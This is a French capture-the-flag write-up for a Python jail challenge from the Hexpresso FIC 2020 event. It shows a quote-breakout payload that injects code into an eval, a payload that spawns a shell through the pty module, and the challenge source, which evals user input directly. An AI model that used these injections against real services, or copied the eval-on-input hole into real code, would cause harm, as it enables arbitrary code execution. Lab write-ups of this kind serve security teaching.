 
| Event        | Challenge | Category | Solves |
| ------------ | --------- | -------- | ------ |
| CatureTheFic | Step 5    | PyJail      | 234    |

![](/lib/images/writeups/2020_hexpresso_fic/upload_57c389cb189abc052097f2ec296d40a5.png)

### V.1. Etat de l'art

On commence cette épreuve avec une archive contenant des certificats ssl et une commande socat:

![](/lib/images/writeups/2020_hexpresso_fic/upload_1d9c480de6df215db2667838dbde40cd.png)

En se connectant, la première chose que je teste est d'afficher une chaine de caractère:

![](/lib/images/writeups/2020_hexpresso_fic/upload_5651f4868f9a065f83d88a1b658fc0e0.png)

Visiblement, il n'aime pas les simples quotes. Au final, avec la syntaxe suivante il est possible d'afficher la chaine de caractère:

![](/lib/images/writeups/2020_hexpresso_fic/upload_126ae445cf09947c5f3774822a604747.png)

> `'+print("hello")+'`

### V.2. Récupération du code

Maintenant qu'on peut executer du python, il est possible de pop un shell grâce à la librairie `pty`.

![](/lib/images/writeups/2020_hexpresso_fic/upload_e7f75504223a2e36df814f046c31a38a.png)

> `'+__import__("pty").spawn("sh")+'`

Cet accès shell permet de récupérer le code du challenge, situé dans "main.py":

```python
#!/usr/bin/env python
import os

SUCCESS = "Good flag !"
FAIL = "Bad flag !"


def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag


def get_input():
    return eval(f"""'{input(">")}'""")


def main():
    flag = get_flag()

    if flag == get_input():
        print(SUCCESS)
    else:
        print(FAIL)


if __name__ == "__main__":
    main()
```
